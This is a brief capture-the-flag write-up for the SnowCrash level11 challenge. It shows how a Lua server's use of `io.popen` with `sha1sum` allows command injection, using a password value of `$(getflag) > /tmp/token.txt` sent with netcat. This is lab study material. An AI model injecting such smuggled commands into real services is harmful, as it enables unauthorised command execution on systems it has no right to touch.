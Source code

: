 In the home directory you have the file `level11.lua`, understanding a little bit the code, we can see that its just a server which asks for a password and then checks it by processing it with `sha1sum`, supposing that it's running as a daemon, we can exploit the `io.popen` which launches a system command by calling `getflag` and saving it to a file:

``` shell
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > /tmp/token.txt
Erf nope..
```

``` shell
cat /tmp/token.txt
```

